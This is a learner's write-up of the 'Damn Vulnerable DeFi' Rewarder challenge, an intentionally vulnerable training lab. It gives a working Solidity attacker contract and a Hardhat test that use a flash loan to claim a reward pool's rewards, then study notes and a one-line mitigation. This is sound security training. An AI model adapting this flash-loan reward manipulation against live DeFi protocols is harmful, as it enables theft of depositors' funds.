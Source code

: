 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

## Comparison

command to run test -> npx hardhat test the_rewarder.challenge.js About to use github linker and "@audit" tag to document stuff in .md file as mentioned here

---- before executing the code ------

I was unable to write report, because I dont have any clue how to write a good report.

** DO NOT READ FURTHER BELOW IF YOU HAVE NOT ALREADY TRIED SOLVING ** - highly recommended.

## Solution :

https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/the-rewarder/FaultyContract.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IFlashloanPool {
    function flashLoan(uint256 amount) external;
}

interface IRewardPool {
    function deposit(uint256 amount) external;
    function withdraw(uint256 amount) external;
}

contract FaultyContract {
    IFlashloanPool public immutable flashLoanPool;
    IERC20 public immutable liquidityToken;
    IRewardPool immutable rewarderPool;
    IERC20 immutable rewardPool;
    address immutable player;

    constructor(address _flashLoanPool, address _liquidityToken, address _rewarderPool, address _rewardPool) {
        flashLoanPool = IFlashloanPool(_flashLoanPool);
        liquidityToken = IERC20(_liquidityToken);
        rewarderPool = IRewardPool(_rewarderPool);
        rewardPool = IERC20(_rewardPool);
        player = msg.sender;
    }

    function firstTimer() external {
        flashLoanPool.flashLoan(uint256(liquidityToken.balanceOf(address(flashLoanPool))));
    }

    function receiveFlashLoan(uint256 amount) external {
        liquidityToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);
        rewardPool.transfer(player, rewardPool.balanceOf(address(this)));
        rewarderPool.withdraw(amount);
        liquidityToken.transfer(address(flashLoanPool), amount);
    }
}

```

https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/test/the-rewarder/the-rewarder.challenge.js#L99-L112

```javascript
it("Execution", async function () {
  await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);

  let playerContract = await (
    await ethers.getContractFactory("FaultyContract", player)
  ).deploy(
    flashLoanPool.address,
    liquidityToken.address,
    rewarderPool.address,
    rewardToken.address
  );

  await playerContract.firstTimer();
});
```

## Concepts Learned :

[here](https://www.linkedin.com/pulse/damn-vulnerable-defi-v3-challenge-5-solution-rewarder-johnny-time/)

when comparing my code with the above url these are all the findings :

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IFlashloanPool {
    function flashLoan(uint256 amount) external;
}

interface IRewardPool {
    function deposit(uint256 amount) external;
    function withdraw(uint256 amount) external;
}

```

1. declaring Interface is a way to tell solidity the next contract I am about has these particular functions. This is important because we need calldatat to talk to evm and calldata is nothing but info about the function to be called and its arge.

2. Interface acts as types for address to create an instance of the contract at the particular address;

3. Intrestingly all the functions in Interface needs to be external & even calls an internal function of the particular contract if that function is called by the function in your Interface.

4. I found that when compared to URL it is unncessary to provide the distributeRewards() in interface as our deposit() function calls distributeRewards(); -> its an additonal thing which will increase the gas for.

5. Understood some Intrsting concept about Safetransfer library.
POSITIVE TAKE AWAY : The logic I applied is exactly same as given in the URL above. Need to make my contract safe too which I did not do..

## Hack & How to stop it

Simply put the issue is the protocal is designed faulty and should have some lock time for the deposit amounts, which its lacking.
